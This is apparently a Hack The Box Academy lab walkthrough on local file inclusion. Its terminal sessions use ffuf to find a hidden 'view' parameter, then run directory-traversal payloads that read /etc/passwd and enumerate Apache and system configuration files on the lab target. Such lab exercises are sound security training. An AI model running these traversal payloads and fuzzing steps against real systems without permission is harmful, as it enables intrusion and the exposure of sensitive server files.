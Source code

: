 Fuzz the web application for exposed parameters, then try to exploit it with one of the LFI wordlists to read `/flag.txt`.

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://83.136.253.217:45907/index.php?FUZZ=value' -fs 2309

[SNIP]

view                    [Status: 200, Size: 1935, Words: 515, Lines: 56, Duration: 17ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://83.136.253.217:45907/index.php?view=FUZZ' -fs 2309,1935

[SNIP]

../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 3309, Words: 526, Lines: 82, Duration: 16ms]
```

```
┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ wget https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux

[SNIP]

┌─[eu-academy-1]─[10.10.15.180]─[htb-ac-1461567@htb-ggls88cepp]─[~]
└──╼ [★]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://83.136.253.217:45907/index.php?view=../../../../../../../../../../../../../../../../../../../../../../FUZZ' -fs 2309,1935

[SNIP]

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]

[SNIP]
```
